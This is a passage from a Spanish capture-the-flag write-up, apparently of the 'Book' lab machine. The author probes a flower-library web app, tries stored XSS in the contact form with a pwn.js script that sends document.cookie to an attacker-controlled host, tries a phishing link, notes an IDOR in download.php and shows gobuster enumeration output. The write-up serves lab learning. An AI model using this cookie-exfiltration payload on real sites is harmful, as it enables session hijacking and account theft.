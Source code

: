 No parece haber un CMS en específico, podría ser una página personalizada. Hay opción de registro así que vamos a ello.

Me registro. Estoy dentro del panel de usuario.

![Panel]({{ 'assets/img/writeups/Book/panel.png' | relative_url }}){: .center-image }

Parece que es una biblioteca sobre flores. Podemos subir un pdf, quizás algo más, en la parte de "Collections". También parece que podemos ponernos en contacto con el administrador en la parte de "Contact Us", probaré un XSS en esta parte.  
En el campo Message pongo esto `<script src="http://10.10.14.13/pwn.js"></script>`  
Y en mi consola dispondré del siguiente fichero pwn.js:
```js
var request = new XMLHttpRequest();

request.open('GET', 'http://10.10.14.13/?cookie=' + document.cookie);

request.send();
```
Y me abro un servidor con python3:
```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Mando el mensaje y me quedo a la escucha un ratillo. Al cabo de ese rato no me llega nada. Voy a cambiar el mensaje por este; ` eyy mira que cosa más curiosa--> http://10.10.14.13/pwn.js` esto ya pasaría a ser un ataque de phising.  
Tampoco hay suerte.

Voy a subir en el apartado "Collections" un pdf de ejemplo. Al subirlo me salta un mensaje diciendo que evaluarán el archivo antes de subirlo a la página. Así que si lo que subo alguien lo mira, interesante, si pudiera meter algún código malicioso dentro del pdf estaría guay. Pero dudo que haya algún código que se interprete dentro de un pdf, al menos no me suena..Además no encuentra donde se alojan los archivos que estoy subiendo, los descargo mediante IDORs; http://10.10.10.176/download.php?file=1 , pero ni idea donde se alojan en el servidor.

Realizaré un fuzzing con gobuster de subidrectorios y archivos php (ya que veo que hay unos cuantos en la web):
```
❯ gobuster dir -u http://10.10.10.176 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 50 -o fuzzing
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.176
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/06/12 14:50:24 Starting gobuster in directory enumeration mode
===============================================================
/search.php           (Status: 302) [Size: 0] [--> index.php]
/docs                 (Status: 301) [Size: 311] [--> http://10.10.10.176/docs/]
/profile.php          (Status: 302) [Size: 0] [--> index.php]                  
/feedback.php         (Status: 302) [Size: 0] [--> index.php]                  
/books.php            (Status: 302) [Size: 0] [--> index.php]                  
/index.php            (Status: 200) [Size: 6800]                               
/admin                (Status: 301) [Size: 312] [--> http://10.10.10.176/admin/]
/download.php         (Status: 302) [Size: 0] [--> index.php]                   
/images               (Status: 301) [Size: 313] [--> http://10.10.10.176/images/]
/home.php             (Status: 302) [Size: 0] [--> index.php]                    
```